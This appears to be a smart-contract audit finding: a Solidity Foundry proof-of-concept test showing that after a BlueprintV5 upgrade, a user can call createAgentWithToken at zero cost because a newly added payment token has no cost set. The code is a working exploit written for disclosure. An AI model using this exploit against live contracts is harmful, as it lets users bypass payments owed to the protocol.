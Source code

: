 ### PoC


The following test demonstrates the vulnerability, paste it into the protocols existing `BlueprintUpgradeTest.t.sol` test file:

```solidity
function test_ZeroCostTokenAgentAfterV5Upgrade() public {
    // First perform the standard V4 to V5 upgrade (reusing existing test logic)
    test_UpgradeV4();
    
    // Upgrade to V5
    BlueprintV5 blueprintV5 = new BlueprintV5();
    vm.startPrank(proxy.owner());
    proxy.upgradeToAndCall(address(blueprintV5), abi.encodeWithSignature("initialize()"));
    vm.stopPrank();
    
    // Verify upgrade was successful
    assertEq(proxy.VERSION(), "5.0.0");
    
    // Setup test user and token
    address user = address(0xBEEF);
    address mockToken = address(0x123456);
    
    // Mock a token implementation
    vm.etch(mockToken, bytes("ERC20"));
    
    // First the admin adds a payment token (but doesn't set cost yet)
    vm.startPrank(proxy.owner());
    // Set fee collection wallet
    BlueprintV5(address(proxy)).setFeeCollectionWalletAddress(address(0xFEE));
    // Add payment token
    BlueprintV5(address(proxy)).addPaymentAddress(mockToken);
    vm.stopPrank();
    
    // User immediately exploits the zero-cost window
    vm.startPrank(user);
    
    // Create agent with token - no cost is enforced yet!
    bytes32 requestId = BlueprintV5(address(proxy)).createAgentWithToken(
        "arbitrary-projectID-abc123",
        "zero cost agent creation due to uninitialized cost",
        address(0),  // No private worker
        "app.crestal.network",
        mockToken
    );
    
    // Verify agent was created successfully
    assertTrue(requestId != bytes32(0));
    
    vm.stopPrank();
    
    console.log("Successfully demonstrated zero-cost agent creation vulnerability in payment system");
}
```
